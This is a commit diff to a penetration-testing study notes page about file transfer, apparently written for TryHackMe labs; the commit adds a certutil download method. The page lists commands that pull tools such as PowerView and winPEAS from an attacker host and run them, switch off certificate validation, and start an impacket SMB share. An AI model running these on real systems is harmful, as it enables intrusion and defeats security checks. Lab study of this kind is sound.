

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/File Transfer.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Added certutil transfer method!

```diff
--- a/Notes/File Transfer.md
+++ b/Notes/File Transfer.md
@@ -20,6 +20,8 @@
 				- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
 			- Certificate isn't trusted
 				- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
+	- ##### Certutil
+		- `certutil -urlcache -f http://<ip>:8000/winPEASx86.exe winPEASx86.exe`
 	- ##### SMB
 		- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
 			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
```
